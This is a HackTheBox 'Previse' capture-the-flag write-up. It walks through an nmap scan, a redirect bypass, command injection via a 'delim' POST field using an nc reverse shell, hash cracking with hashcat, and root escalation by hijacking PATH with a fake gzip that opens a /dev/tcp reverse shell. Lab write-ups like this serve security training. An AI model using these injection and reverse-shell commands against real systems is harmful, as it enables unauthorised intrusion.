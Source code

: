 # Previse write-up HackTheBox
![previse](https://user-images.githubusercontent.com/75753593/131796510-f27e00c0-1db4-43ff-99be-600bd4630b63.png)
### 1. Port Scan Enumuration
### 2. Exploitation
### 3. Privilege Escalation
* ### USER
* ### ROOT

## Port Scan (Nmap)
* First We will scan target with nmap ``nmap -sV -sC 10.10.11.104``
* I found two open ports ``ssh`` and ``http``
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 03:00 EDT
Stats: 0:02:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 39.79% done; ETC: 03:05 (0:03:08 remaining)
Stats: 0:06:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 03:06 (0:00:07 remaining)
Nmap scan report for previse.htb (10.10.11.104)
Host is up (0.45s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE          VERSION
22/tcp   open     ssh              OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|_  256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
80/tcp   open     http             Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Previse Login
|_Requested resource was login.php
3269/tcp filtered globalcatLDAPssl
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 515.82 seconds

```
## Exploitation
* I found login Web page at http server.
* let's try to fuzz directories with DirSearch .
``python3 dirsearch.py -u http://10.10.11.104/`` and I have found an interesting directory called ``nav.php``

     ![](https://user-images.githubusercontent.com/75753593/131798690-282fe251-73ff-44c6-8d08-6daeb1b258d3.png)
*  I tried to create account or visit any another links but pages have been redirected to ``login.php`` with ``302 Found``
* So I tried to edit response with ``200 ok`` and send it back to the server .

![](https://user-images.githubusercontent.com/75753593/131802521-54feb655-4738-4117-9e62-40efe55b16d3.png)

* And I got a registration form , Then I created a new account.
* When I logged in I found visited ``files`` menu and found ``SITEBACKUP.ZIP`` file .
*  When I extracted The file I found interesting files such as ``config.php`` that contian db credentials and more interesting php file called ``log.php`` , let's check source code.
* I found ``exec`` function that take delim via post request run python script without any validation .
* I went to log file page MANAGEMENT MENU >> LOG DATA and opened burp broxy to see request.
* So I listened on the server with ``nc -nlvp 9999`` and tried to inject ``delim`` with reverse shell ``delim=comma;nc+-e+/bin/sh+[ip]+[port]`` and finally I got a shell .
* lets use ``python -c "import pty;pty.spawn('/bin/sh')"`` to get interactive shell .
## Privilege escalation (User)
* Now we are ``www-data`` we will try to escalat our privilages .
* Let's connect to database with ``username`` and ``password`` located in ``config.php`` file , ``mysql -u root -D previse -p`` and then password ``mySQL_p@ssw0rd!:)``.
* Then I found a Table Called ``account`` , let's show table content with ``select * from accounts;``
* And I found a user called ``m4lwhere`` that already exist on OS , and I tried to Identify hash type with hashID .
*When I got the mode of hash I used ``hashcat`` to decrypt it with ``hashcat -a 3 -m 500 hash.txt /wordlist_path`` that retrieve ``ilovecody112235!`` password .
* Let's connect with ``ssh`` to get user flag ``ssh m4lwhere@10.10.11.104``
## Privilege escalation (Root)
* First we will apply ``sudo -l`` command to see what commands this user can run with high privileges .
* user can run ``/opt/scripts/access_backup.sh`` as a root .
* When I checked content I found ``gzip`` command run without full path.
* let's create file called ``gzip`` with bash reverse shell content ``bash -i >& /dev/tcp/ip/port 0>&1`` at ``/tmp`` directory and add this file to PATH ``export PATH="/tmp:$PATH"`` and give it a permission ``chmod +x /tmp/gzip``.
* Now we can listen on port and run command ``sudo /opt/scripts/access_backup.sh`` .
* Finally we Got a root shell . :).
# Thanks
